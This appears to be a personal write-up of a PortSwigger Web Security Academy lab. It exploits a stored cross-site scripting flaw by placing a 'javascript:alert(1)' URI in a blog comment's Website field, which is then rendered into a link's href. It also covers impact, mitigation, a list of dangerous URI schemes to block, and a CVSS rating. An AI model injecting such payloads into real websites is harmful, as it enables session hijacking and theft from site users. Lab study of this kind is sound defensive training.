






# Stored XSS into Anchor href Attribute with Double Quotes HTML-encoded

## Objective

The objective of this lab is to identify and exploit a **Stored Cross-Site Scripting (XSS)** vulnerability where user-controlled input from the Website field is stored by the application and later reflected inside an HTML anchor (`<a>`) element's `href` attribute.

---

## Tools Used

- Web Browser (Chrome)
- Burp Suite Community Edition
- Browser Developer Tools (DevTools)
- PortSwigger Web Security Academy

---

## Vulnerability Overview

Stored XSS occurs when malicious input is permanently stored by an application and later rendered to other users without proper validation or sanitization.

In this lab:

- User input from the **Website** field is stored by the application.
- The stored value is inserted directly into an anchor (`href`) attribute.
- The application fails to validate dangerous URI schemes.
- An attacker can inject a `javascript:` URI that executes JavaScript when clicked.

As a result, arbitrary JavaScript can execute in the victim's browser.

---

## Steps to Reproduce

---

### Step 1: Open the Lab

Launch the lab and open any available blog post.



---

### Step 2: Submit a Normal Comment

Post a comment using a random alphanumeric value in the Website field:

```text
Comment: Testing Comment
Name: Arpit
Email: test@test.com
Website: abc123xyz
```

Submit the comment.



---

### Step 3: Verify Reflection in Burp Repeater

Intercept the request using Burp Suite and send it to Repeater.

Refresh the blog post and intercept the request used to display the post.

Search for the Website value in the response:

```html
<a href="abc123xyz">Arpit</a>
```

This confirms that the Website field is reflected inside the anchor's `href` attribute.



---

### Step 4: Inject Malicious Payload

Submit another comment using the following payload in the Website field:

```text
javascript:alert(1)
```

Example:

```text
Comment: XSS Test
Name: Arpit
Email: test@test.com
Website: javascript:alert(1)
```

After submission, the application stores the malicious value.



---

### Step 5: Trigger the Stored XSS

Navigate to the blog post and locate the newly added comment.

Click the author name displayed above the comment.

Since the Website value is now:

```html
<a href="javascript:alert(1)">Arpit</a>
```

clicking the link executes:

```javascript
alert(1)
```



---

### Step 6: Lab Solved

After successful execution of the payload, the application confirms that the lab has been solved.



---

## Result

- Stored malicious input successfully.
- Verified reflection inside the anchor `href` attribute.
- Executed arbitrary JavaScript using a `javascript:` URI.
- Confirmed the presence of a Stored XSS vulnerability.

---

## Impact

- Execution of arbitrary JavaScript in a victim's browser.
- Session hijacking attacks.
- Credential theft through phishing pages.
- Unauthorized actions performed on behalf of users.
- Website defacement and malicious redirection.

---

## Mitigation

- Validate and sanitize all user-supplied URLs.
- Allow only safe URI schemes such as:
  ```text
  http://
  https://
  ```
- Block dangerous schemes such as:
  ```text
  javascript:
  data:
  vbscript:
  ```
- Implement Content Security Policy (CSP).
- Apply strict input validation on user-controlled fields.

---

## CVSS Score

**CVSS v3.1 Score:** 6.1 (Medium)

### Vector

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
```

---

## CVSS Explanation

- **AV:N (Network):** Exploitable remotely.
- **AC:L (Low):** Easy to exploit.
- **PR:N (None):** No authentication required.
- **UI:R (Required):** Victim interaction required.
- **S:C (Changed):** Impacts browser execution context.
- **C:L (Low):** Limited information disclosure.
- **I:L (Low):** Integrity can be affected.
- **A:N (None):** No availability impact.

---

## Conclusion

This lab demonstrates how Stored XSS can occur when user-controlled input is inserted directly into an anchor element's `href` attribute without proper validation. By injecting a malicious `javascript:` URI, an attacker can execute arbitrary JavaScript whenever a victim clicks the affected link. Proper URL validation and scheme whitelisting are essential defenses against this vulnerability.

---

## Key Learning

- Stored XSS can exist within HTML attributes, not just page content.
- User-controlled URLs should always be validated.
- The `javascript:` scheme can be abused to execute code.
- Input validation and output encoding must be applied consistently.
- Content Security Policy provides an additional layer of defense against XSS attacks.
